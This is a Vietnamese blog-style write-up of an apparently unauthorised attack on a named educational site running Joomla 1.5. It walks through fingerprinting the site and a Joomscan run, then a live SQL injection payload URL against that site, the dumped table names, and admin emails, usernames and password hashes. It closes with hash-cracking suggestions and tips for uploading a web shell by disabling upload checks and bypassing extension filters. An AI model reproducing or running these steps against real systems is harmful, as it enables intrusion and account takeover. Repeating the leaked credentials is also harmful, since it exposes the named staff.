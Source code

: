 # TÔI ĐÃ HACK HTTP://CMS.FPT-X.EDU.VN NHƯ THẾ NÀO?

## 0. PHẦN MỞ ĐẦU

Lý do, mình thực hiện kiểm tra trang này là do yêu cầu của một cậu bạn, giữa mình và cậu ta có một cuộc trao đổi nên sẵn tiện mình chia sẻ cho các bạn đọc bài này để hiểu rõ hơn về cách thức kiểm tra một trang website cơ bản chẳng hạn như mục tiêu trong bài viết.

![](https://media.giphy.com/media/QVhQUlQifO3ZId3QVv/giphy.gif)

## 1. XÁC ĐỊNH CÁC THÔNG SỐ CƠ BẢN

Để có thể giải quyết cái bài toán trên của cậu bạn kia, chúng ta cần phải thu thập thông tin, xác định các thông số cơ bản và đánh giá sau đó đưa ra cách thức để kiểm tra phù hợp với mục tiêu. Cụ thể các thông số cơ bản trong bài này chúng ta cần tìm hiểu là:

- Server của mục tiêu này hoạt động là gì? (VPS Linux/Windows)(APACHE/IIS)
- Mã nguồn mục tiêu này sử dụng là gì? (Wordpress/Laravel/Joomla/.../)
- Phiên bản của mã nguồn này đã outdated hay chưa?
- `...`

**Thứ nhất:** Xác định được Server đang hoạt động là Linux/Windows sẽ cho chúng ta biết nên lựa chọn cách kiểm tra nào cho phù hợp.

**Thứ hai:** Xác định mã nguồn giúp chúng ta thu hẹp lại dễ dàng xác định được các lỗ hổng đặc trưng của từng framework.

**Thứ ba:** Xác định phiên bản `outdated` hay chưa sẽ giúp chúng ta có thêm nhiều cách kiểm tra, vì phiên bản `outdated` sẽ tồn tại nhiều lỗ hổng. Xem và tìm hiểu thêm về: [POC](https://timviec365.vn/blog/poc-la-gi-new7679.html) và [CVE](https://resources.cystack.net/zero-day-la-gi-cve-la-gi/) và Xem thêm trang: https://cve.mitre.org/ nhé.

![Minh họa cho các trang outdated <(")](https://media.giphy.com/media/iVDo6InQKyW8o/giphy.gif)

### CÁCH TỚ XÁC ĐỊNH 

Có nhiều cách để kiểm tra những thông số trên, từ thủ công cho đến công cụ hoặc các đặc điểm nhận dạng. Ở đây, tớ dùng cách thủ công đó là kiểm tra `robots.txt` và viewsource <("). Để kiểm tra file `robots.txt` thì hãy thêm phần ```/robots.txt``` vào web nhé.

![](https://github.com/dirtycoins/emptygroup/blob/main/1.png) 

Theo hình ta thấy, cấu trúc này nó `disallow` path `/administrator/` nếu các bạn đã từng kiểm tra nhiều thì chỉ cần nhìn phần này ta có thể đoán được đây là mã nguồn Joomla rồi. Thử truy cập vào path `/administrator` này để ta có thể biết rõ mã nguồn gì nhé. 

![](https://github.com/dirtycoins/emptygroup/blob/main/2.png)

Chuẩn rồi đó, `JOOMLA` tiếp theo đối với phần thông số `version` nhìn vào giao diện này tớ đoán đây là phiên bản cũ, đối với các phiên bản cũ bạn có thể viewsource vì nó có để version trong này. Ấn tổ hợp phím `CTRL + U` hoặc chuột phải chọn `Viewsource` nhé.

![](https://github.com/dirtycoins/emptygroup/blob/main/3.png)

```html
<meta http-equiv="content-type" content="text/html; charset=utf-8" />
<meta name="robots" content="index, follow" />
<meta name="keywords" content="FPT Aptech Iboard, CMS-HCM news and Course Manage System" />
<meta name="description" content="FPT Aptech Iboard News, Information for Students - Pham Phu Phi Author" />
<meta name="generator" content="Joomla! 1.5 - Open Source Content Management" />
<title>Aptech Iboard News - Administration</title>
<link href="/administrator/templates/khepri/favicon.ico" rel="shortcut icon" type="image/x-icon" />
<script type="text/javascript" src="/media/system/js/mootools.js"></script>
```
Bạn có thể nhìn vào thẻ `<meta name="generator">` Ở đây chúng ta thấy `content="Joomla! 1.5 - Open Source Content Management"` như vậy là đã xác định được version của mục tiêu này rồi. Mã nguồn: Joomla - Phiên bản: 1.5 <(")

## 2. XÁC ĐỊNH CÁC CVE TỒN TẠI TRONG MỤC TIÊU TRÊN

Do ở phần 1, chúng ta đã xác định được mã nguồn và phiên bản thì nhận xét đây là phiên bản lỗi thời nên cách tốt nhất là hãy dùng công cụ Joomscan để dò toàn bộ CVE của các phiên bản Joomla trước, từ đó tiến hành thực hiện quá trình khai thác nhé. Joomscan có sourcecode trên github, các bạn git về sử dụng nhé.

![image](https://user-images.githubusercontent.com/53977417/120837780-5744f980-c591-11eb-9f90-02a9dee126aa.png)

Sau khi chạy xong chúng ta sẽ thu được các CVE sau: 

```shell

[+] FireWall Detector
[++] Firewall not detected

[+] Checking module: jckeditor
[++] Joomla Component JCK Editor 6.4.4 - 'parent' SQL Injection
POC: http://cms.fpt-x.edu.vn/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent="%20UNION%20SELECT%20NULL,NULL,0x54683173317374337374,NULL,NULL,NULL,NULL,NULL--%20aa
EDB : https://www.exploit-db.com/exploits/45423/

[+] Detecting Joomla Version
[++] Joomla 1.5.15

[+] Core Joomla Vulnerability
[++] Joomla! 1.5.x - SQL Error Information Disclosure
EDB : https://www.exploit-db.com/exploits/34955/ 

Joomla! < 1.7.0 - Multiple Cross-Site Scripting Vulnerabilities
EDB : https://www.exploit-db.com/exploits/36176/

Joomla! 1.5 < 3.4.5 - Object Injection Remote Command Execution
CVE : CVE-2015-8562
EDB : https://www.exploit-db.com/exploits/38977/

Joomla! 1.0 < 3.4.5 - Object Injection 'x-forwarded-for' Header Remote Code Execution
CVE : CVE-2015-8562 , CVE-2015-8566 
EDB : https://www.exploit-db.com/exploits/39033/
```

Trong số các CVE xuất ra, điều khiến chúng ta chú ý nhất là lỗi `Joomla Component JCK Editor 6.4.4 - 'parent' SQL Injection` nó có cả POC, truy cập vào POC để kiểm tra thử nhé. 

![image](https://user-images.githubusercontent.com/53977417/120838397-f833b480-c591-11eb-8d14-4cdc93f994ab.png)

Tèn tén ten, site này đã bị lỗi SQL Injection via Component JCK Editor, giờ chỉ đơn giản là tiến hành khai thác SQL Injection thông thường. <(")

![image](https://user-images.githubusercontent.com/53977417/120838769-66787700-c592-11eb-9045-4c7c4eda8dd8.png)

```html
<node text="" icon="_closed" selectable="false" url="ibo_banner,ibo_bannerclient,ibo_bannertrack,ibo_categories,ibo_components,ibo_contact_details,ibo_content,ibo_content_frontpage,ibo_content_rating,ibo_core_acl_aro,ibo_core_acl_aro_groups,ibo_core_acl_aro_map,ibo_core_acl_aro_sections,ibo_core_acl_groups_aro_map,ibo_core_log_items,ibo_core_log_searches,ibo_groups,ibo_menu,ibo_menu_types,ibo_messages,ibo_messages_cfg,ibo_migration_backlinks,ibo_modules,ibo_modules_menu,ibo_newsfeeds,ibo_plugins,ibo_poll_data,ibo_poll_date,ibo_poll_menu,ibo_polls,ibo_sections,ibo_session,ibo_stats_agents,ibo_templates_menu,ibo_users,ibo_weblinks"> </node>
```

![image](https://user-images.githubusercontent.com/53977417/120839007-a63f5e80-c592-11eb-880f-a4bb8ad65d0b.png)

```html
<nodes>
<node text="" icon="_closed" selectable="false" url="id,name,username,email,password,usertype,block,sendEmail,gid,registerDate,lastvisitDate,activation,params"> </node>
</nodes>
```

![image](https://user-images.githubusercontent.com/53977417/120839388-15b54e00-c593-11eb-9cc7-9faf2aedb035.png)

```html
<nodes>
<node text="" icon="_closed" selectable="false" url="62|phuphi.80@mail.com|iboardadmin|b0944741c876f80cecb2ae4614629f0c,63|phipp@fpt.com.vn|phipp|711a00d5f9d89db047089a0f3e796d93:i76l3wDzPrSjJimcdUnHRzcGPtWS06sI,88|dungnm@fpt.com.vn|DungNM|dcf0e49476c8a80695c2bc02b76c4d0d:TZRt8IH5keCGg5mb32oyi3OJGkICcInf,89|binhtt@fpt.edu.vn|binhtt|38ed0ef8909ea274b83a1721b37f67f2:G9guVztcbirUeKFSt92wRH1ikqxERLoG,86|phunglv@fpt.edu.vn|phunglv|d4dba7fbeaf7f1cad6b77b3ef5a6825d:SujNXMdj4uGujdRCI4dngJO4SKxFkEzO,87|truongnpk@fpt.edu.vn|truongnpk|17d325d7dc7c912d0fa3634ac03301f1:qzunXOftPrMpUsE0y3XY5n3kSGEb6M50,74|phongna@fpt.edu.vn|phongna|66eb9743fcd396e7dea5819e9256cbed:8bakqusoU6TzUK59XGfq6SIkoH2Jjqpv,90|vietnq@fpt.edu.vn|vietnq|68d2d21db027c0532994d3dd6dcdd2d2:BSwa7HKRiuxbaPsz16COMbLJjXBHUF26,91|haims@fpt.edu.vn|haims|06b4ca002fadf3f4349a5706f266a3e9:UYusc2gwQKI1H8dtXo7xCL8bAAkcAkmQ,92|diepnn4@fpt.com.vn|diepnn4|9bcc9af5bb1429bd6fd4b11e53ad1a59:c5orglHgQbjQBZEahsWCr0C6DIRQbMvv,93|ducnv8@fpt.com.vn|ducnv8|2a35323a7f29eed06879a6e77a508695:Zbk3skwErS7xPxPrrGSSGDGiDEkWPbaQ,94|trainv"> </node>
</nodes>
```

Vậy là đã dump xong thông tin đăng nhập rồi, nhìn vào các dạng hash ta có thể đoán được đoạn đầu tiên sử dụng md5 còn lại là các hash khác nhau. Do vậy ta có thể thử vận may bằng cách decrypt hashmd5 xem trên hashkiller có lưu trữ lại chuỗi hash này không nhé. 

![image](https://user-images.githubusercontent.com/53977417/120839688-73e23100-c593-11eb-9155-b0a00b98edfe.png)

Vậy là xong rồi, tớ sẽ ngừng bài viết này ở đây, còn các cậu muốn tìm hiểu hay upshell chiếm server rồi get root tớ không can thiệp hẻ. 

**Mách nhỏ:** Muốn upload shell Joomla, hãy config lại Legal Extensions (File Types), tắt đi chức năng Restrict Uploads và Check MIME Types, thêm định dang MIME Types cần thiết và thử bypass extension nhé. VD: Shell.php -> Shell.pHp, .phP, .php3, .php5,.. 

![image](https://media.giphy.com/media/s4Q3geM5T1XCo/source.gif)







